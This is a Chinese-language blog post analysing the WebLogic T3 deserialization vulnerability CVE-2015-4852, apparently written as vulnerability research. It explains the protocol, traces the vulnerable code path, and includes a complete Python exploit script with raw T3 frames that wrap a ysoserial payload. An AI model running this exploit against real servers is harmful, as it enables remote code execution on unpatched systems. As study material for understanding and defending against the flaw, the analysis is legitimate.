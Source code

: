 # CVE-2015-4852 WebLogic-T3反序列化分析

  
  
&lt;!--more--&gt;  
## 0x01 环境搭建  
本地搭建  
https://www.penson.top/article/av40  
## 0x02 基础知识  
### 关于Weblogic  
Weblogic和tomcat差不多，从功能上来说就是两个Web服务端，也就是启动器  
和Tomcat不同的地方在于，Weblogic可以自己部署很多东西，要知道，在Tomcat中，这些都是需要自己写代码的  
### T3协议  
T3协议其实是Weblogic内独有的一个协议，在Weblogic中对RMI传输就是使用的T3协议。在RMI传输当中，被传输的就是一串序列化的数据，在这串数据被接收后，执行反序列化的操作。  
在T3的这个协议里面包含请求包头和请求的主体的两部分内容。  
CVE-2015-4852 EXP  
```python  
#!/usr/bin/python  
import socket  
import struct  
import sys  
  
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
server_address = (sys.argv[1], int(sys.argv[2]))  
print &#39;connecting to %s port %s&#39; % server_address  
sock.connect(server_address)  
  
# Send headers  
headers=&#39;t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n&#39;  
print &#39;sending &#34;%s&#34;&#39; % headers  
sock.sendall(headers)  
  
data = sock.recv(1024)  
print &gt;&gt;sys.stderr, &#39;received &#34;%s&#34;&#39; % data  
payloadObj = open(sys.argv[3],&#39;rb&#39;).read()  
  
payload=&#39;\x00\x00\x09\xe4\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00&#39;  
payload=payload&#43;payloadObj  
payload=payload&#43;&#39;\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78&#39;  
print &#39;sending payload...&#39;  
payload = &#34;{0}{1}&#34;.format(struct.pack(&#39;!i&#39;, len(payload)), payload[4:])  
  
sock.send(payload)  
```  
#### Weblogic请求包头  
我们需要通过Wireshark对这一个流量包执行抓包操作，后续抓到的包的请求头如图  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081731923.png)
  
这一个就是它请求包的头  
`t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001`  
在发送该请求包头后，服务端Weblogic会有一个响应，内容如下  
```txt  
HELO:10.3.6.0.false  
AS:2048  
HL:19  
```  
HELO 后面的内容则是被攻击方的 Weblogic 版本号，也就是说，在发送正确的请求包头后，服务端会进行一个返回 Weblogic 的版本号。  
#### Weblogic请求主体  
请求主体，也就是发送的数据，这些数据分为七部分内容，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081750329.png)
第一非Java序列化数据，也就是我们的请求头  
`t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001`  
后面第n部分的数据，其实是不限制的，也就是说，我可以只有一部分的Java序列化数据，也可以有七部分的Java序列化数据，这并不重要，我们可以观察一下`Wireshark`抓的包  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081753632.png)
在`ac ed 00 05`之后的内容便是序列化的数据，所以如果我们要进行攻击，应该是对于这一串序列化的数据进行恶意构造，让服务端在反序列化的时候发起攻击。  
而此处，如果有多个Java序列化的数据，可以对任一一个数据进行攻击即可  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081754786.png)
## 0x03 漏洞分析与调试  
### 影响版本  
Oracle WebLogic Server 10.3.6.0, 12.1.3.0, 12.2.1.2 and 12.2.1.3。  
### 漏洞分析  
通过`dir | findstr &#34;commons&#34;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081803722.png)
存在一个`commons.collections_3.2.0`的包  
直接找反序列化的入口类  
`Weblogic T3`对于RMI传递过来的数据在处理上还是比较绕的，  
在`InboundMsgAbbrev#readObject`处，下个断点开始调试  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031451756.png)
先跟进`ServerChannelInputStream`的构造函数，`ServerChannelInputStream`这个类的作用是处理服务端收到的请求头信息  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031455370.png)
继续跟进`getServerChannel()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031457744.png)
关注一下目前的`this.connection`是什么  
`connection`是`weblogic.rjvm.t3.MuxableSocketT3$T3MsgAbbrevJVMConnection@4d66781`这个类，在`this.connection`中主要存储了一些RMI连接的数据，包括端口地址等。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031458474.png)
跟进`getChannel()`方法，开始处理T3协议  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031459237.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031502046.png)
T3头处理结束，重新回到`InboundMsgAbbrev#readObject`处，跟进`readObject()`方法，一路跟进`InboundMsgAbbrev#resolveClass()`中，这里的调用栈如下  
```java  
resolveClass:108, InboundMsgAbbrev$ServerChannelInputStream (weblogic.rjvm)  
readNonProxyDesc:1610, ObjectInputStream (java.io)  
readClassDesc:1515, ObjectInputStream (java.io)  
readOrdinaryObject:1769, ObjectInputStream (java.io)  
readObject0:1348, ObjectInputStream (java.io)  
readObject:370, ObjectInputStream (java.io)  
readObject:66, InboundMsgAbbrev (weblogic.rjvm)  
read:38, InboundMsgAbbrev (weblogic.rjvm)  
```  
`resolveClass()`方法是用来处理类的，这些类在经过反序列化之后会走到`resolveClass()`方法这里，此时的`var1`，正是我们的`AnnotationInvocationHandler`类  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031513851.png)
这时候`AnnotationInvocationHandler`类并不会被直接拿去反序列化，因为`Weblogic`服务端需要先加载所有反序列化的内容。在将所有数据反序列化解析完毕之后(也可以说只是做了`Class.forName()`的操作之后)，才会开始进行真正的反序列化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031521170.png)
## POC理解  
POC的本质就是把ysoserial生成的payload变成T3协议里的数据格式，我们需要写入的有几段东西。  
1、Header，这代表了数据包长度  
2、T3 Header  
3、反序列化标志，也就是`fe 01 00 00`  
所以这三段话是这么来的  
```  
header = binascii.a2b_hex(b&#34;00000000&#34;)  
t3header = binascii.a2b_hex(b&#34;016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006&#34;)  
desflag = binascii.a2b_hex(b&#34;fe010000&#34;)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031524114.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/cve-2015-4852-weblogic-t3-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/  

